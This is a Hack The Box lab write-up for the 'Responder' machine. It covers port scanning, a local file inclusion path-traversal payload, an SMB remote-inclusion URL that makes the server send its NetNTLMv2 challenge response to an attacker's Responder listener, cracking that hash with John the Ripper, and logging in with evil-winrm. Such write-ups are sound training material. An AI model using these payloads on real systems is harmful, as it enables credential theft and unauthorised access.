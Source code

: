 # Responder

#### Difficulty: <code>Very Easy</code>

#### Machine Tags
  WinRM
  Custom Applications
  Protocols
  XAMPP
  SMB
  Responder
  PHP
  Reconnaissance
  Password Cracking
  Hash Capture
  Remote File Inclusion
  Remote Code Execution

#### Description
  Learn about File Inclusion vulnerability for webpages served on Windows machines with NetNTLMv2. Responder and John the Ripper will be used. 

#### **Enumeration**
  The normal methods of enumeration are not working, so it seems that we are going to have to scan all ports. What is helpful for situations like this is to set a minimum number of packets that nmap can send per second. 
  ```
    nmap -p- --min-rate {rate_limit} -sV {IP}
  ```
  The services open are:  
  ```
    80/tcp:   http
    5985/tcp: wsman
    7680/tcp: pando-pub
  ```
#### **Windows Remote Management**
  WinRM or Windows Remote Management is a built-in remote management protocol using Simple Object Access Protocol to interact with remote computers and servers. If this service is running, if we can find the credentials with remote management privileges, a user would be able to get Powershell on the host. 

#### **Website Enumeration**
  In some cases, even typing in the IP of the service will not return the web application. The interesting part is after putting the target IP into a browser, we are still unable to connect to any resource. However, the URL changes to http://unika.htb/. 

#### **Name-Based Virtual Hosting**
  A method for hosting multiple dommain names on a single server. This method allows a server to share computing resources without all services to be used by the same hostname. The web server relies on its /etc/hosts file to resolve hostnames into an IP address. Hence, for us to resolve the address, an entry needs to be appended to this file. An example for the command to do this is:
  ```
    echo "{IP}    {hostname}" | sudo tee -a /etc/hosts/
  ```
  Now, the address will resolve to unika.htb allowing the browser to include HTTP header <code>Host: unika.htb</code> in every request sent to the IP address. 

#### **Finding more Information**
  Using Wappalyzer we would be able to find more about about this webpage. 
  ```
  Font Scripts:          Font Awesome, Google Font, API                 Web server Extensions: OpenSSL
  Web Servers:           Apache                                         JavaScript Libraries:  jQuery, OWL Carousel, Isotope
  Programming Languages: PHP                                            UI Frameworks:         Bootstrap, Animate.css
  OS:                    Windows Server
  ```
  Additionally, trying to look at the other tabs of the website we see that there is the option for viewing the website in French. When we do this, we see that the link updates to unika.htb/index.php?=french.html. This is a hint that the website could be vulnerable to Local File Inclusion (LFI). 

#### **File Inclusion Vulnerability**
  Local File Inclusion (LFI) happens when an attacker is able to get a website to include a file that is not intended to be an option for this application. For example, if an app uses path to a file as input without checking then the exploit would be to use '../' until sensitive files are leaked. Somtimes, LFI can lead to code execution. 

  Remote File Inclusion (RFI) similar to LFI but loads a remote file on host using a protocol like HTTP or FTP. The <code>page</code> parameter can be used to see if we can include files on the target. The <code>../</code> string is used to traverse back a directory.

  An example URL file inclusion would look like:
  ```
    Base URL:  http://unika.htb/index.php?
    Parameter: page=../../../../../../../../windows/system32/drivers/etc/hosts

    URL: http://{url}/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts
  ```
  Without the proper sanitization, some method processes the URL <code>page</code> parameter can be used to pass malicious input to view internal system files. 

#### **Responder Challenge Capture**
  New Technology Lan Manager (NTLM) is a collection of authenticaion protocols created by Microsoft. Which is a challenge-response authentication protocol to authenticate a client to a response on an AD domain. 
  
  It is a type of single sign-on (SSO) to allow user to provide underlying authentication factor only once when logging on. The NTLM authentication process is done: 

  &emsp;1. Client sends username and domain name to server  
  &emsp;2. Server generates random character string, the challenge  
  &emsp;3. Client encrypts the challenge with NTLM hash of user password and sends back to the server  
  &emsp;4. Server retrieves the user password (or equivalent)  
  &emsp;5. Server uses hash value retrieved from security account database to encrypt the challenge string, then value is compared to value received from the client. If they match then client is authenticated.

#### **NTLM vs NTHash vs NetNTMLv2**
  ***Hash Function***: a one-way function that takes any amount of data and returns fixed size value. Referred to as *hash, digest, or fingerprint*. Used for storing passwords more securely since there's no way to convert hash back to original data. Server can store hash of password and compare to input. 

  ***NTHash***: output of the algorithm used to store passwords on Windows systems in the SAM database and on domain controllers. An NTHash or NTLM hash 

  NTLM protocol does authentication over network using a challenge-response model. NetNTLMv2 challenge-response is a string formatted to include the challenge and response, often referred to as NetNTLMv2 hash but it is **not**. 

#### **Using Responder**
  The PHP configuration file <code>php.ini</code>, the <code>allow_url_include</code> wrapper is set to Off. This means PHP does not load remote HTTP or FTP URLs to prevent RFI attacks. 

  *Even if <code>allow_url_include</code> and <code>allow_url_fopen</code> are off, PHP doesn't prevent loading SMB URLs*

  Using Responder, we will setup malicious SMB server for the target to perform NTLM authentication to it. Responder will send a challenge back for the server to encrypt with the user's password. When the server responds, Responder will use the challenge and encrypted response to generate the NetNTLMv2. The NetNTLMv2 is irreversible, but we can then use John The Ripper to generate hashes to compare it against. 

  If there is a <code>port 80</code> error, turn off the HTTP flag in the Responder.conf (thats what happened to me). 

  When the config file for Responder is done, we can execute the script in Python. Passing in the interface to list on the <code>-I</code> flag. 
  ```
    Python3
    sudo python3 Responder.py -I tun0

    With Kali or HTB PwnBox
    sudo responder -I {network interface}
  ```

  To include a resource from our SMB server using the <code>page</code> parameter:
  ```
    http://{url}/?page=//{smb_ip}/somefile
  ```
  Make sure to include the http:// since some browsers might just Google it. It would give us a permission denied page. However Responder would have:

  ![Responder Output Hash](/HackTheBox/Basics%20of%20Penetration%20Testing/You%20Need%20to%20Walk%20Before%20You%20Can%20Run/Responder/assets/responder_output.png)

#### **Hash Cracking**
  To commence hash crackingh, we take the NTMLv2-SSP Hash, we can plug into the password hash-cracking utility. Using <code>john</code> the flag <code>-w</code> can specify a wordlist to use for cracking. So an example cmd for John the Ripper would look like:
  ```
    john -w={filepath_wordlist} {file_w_hash}
  ```
  ![Hash Cracking Response](/HackTheBox/Basics%20of%20Penetration%20Testing/You%20Need%20to%20Walk%20Before%20You%20Can%20Run/Responder/assets/hash_crack.png)

#### **WinRM**
  For instances that need PowerShell, we will use a tool called Evil-WinRM. To login over it, a command like the following is used:
  ```
    evil-winrm -i {IP} -u {username} -p {password}
  ```